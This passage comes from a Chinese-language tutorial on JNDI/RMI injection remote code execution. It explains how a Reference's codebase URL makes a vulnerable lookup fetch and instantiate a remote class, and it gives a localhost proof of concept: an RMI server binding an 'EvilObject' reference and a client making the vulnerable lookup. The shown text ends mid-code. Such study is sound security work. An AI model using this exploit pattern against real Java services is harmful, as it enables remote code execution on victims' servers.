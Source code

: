 `JNDI`支持很多服务类型，当服务类型为`RMI`协议时，如果从`RMI`注册服务中`lookup`的对象类型为`Reference`类型或者其子类时,会导致远程代码执行，`Reference`类提供了两个比较重要的属性，`className`以及`codebase url`，`classname`为远程调用引用的类名，那么`codebase url`决定了在进行`rmi`远程调用时对象的位置，此外`codebase url`支持http协议,当远程调用类(通过`lookup`来寻找)在`RMI`服务器中的`CLASSPATH`中不存在时，就会从指定的`codebase url`来进行类的加载，如果两者都没有，远程调用就会失败。

`JNDI RCE`漏洞产生的原因就在于当我们在注册`RMI`服务时，可以指定`codebase url`，也就是远程要加载类的位置，设置该属性可以让`JNDI`应用程序在加载时加载我们指定的类( 例如：http://www.iswin.org/xx.class) ,当`JNDI`应用程序通过`lookup`(RMI服务的地址)调用指定`codebase url`上的类后，会调用被远程调用类的构造方法，所以如果我们将恶意代码放在被远程调用类的构造方法中时，漏洞就会触发。

攻击过程可归纳成下图

![image-20201021140208508](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201021140208508.png)

① 攻击者为易受攻击的JNDI的lookup方法提供了LDAP/RMI URL

② 目标服务器连接到远端LDAP/RMI服务器，LDAP/RMI服务器返回恶意JNDI引用

③ 目标服务器解码JNDI引用

④ 从远端LDAP/RMI服务器获取Factory类

⑤ 目标服务器实例化Factory类

⑥ payload得到执行。



## 0X03RMI&&JNDI实例

### 3.1RMI + JNDI Reference Payload

RMIServer.java

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;

public class RMIServer {
    public static void main(String args[]) throws Exception {
        Registry registry = LocateRegistry.createRegistry(8080);
        Reference refObj = new Reference("EvilObject", "EvilObject", "http://127.0.0.1:8000/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/refObj'");
        registry.bind("refObj", refObjWrapper);
    }
}
```

RMIClient.java

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JNDIClient {
    public static void main(String[] args) throws Exception{
        try {
            Context ctx = new InitialContext();
            ctx.lookup("rmi://localhost:8080/refObj");
            String data = "This is RMI Client.";
            //System.out.println(serv.service(data));
        }
        catch (NamingException e) {
            // TODO Auto-generated catch block
            e.printStackTrace();
```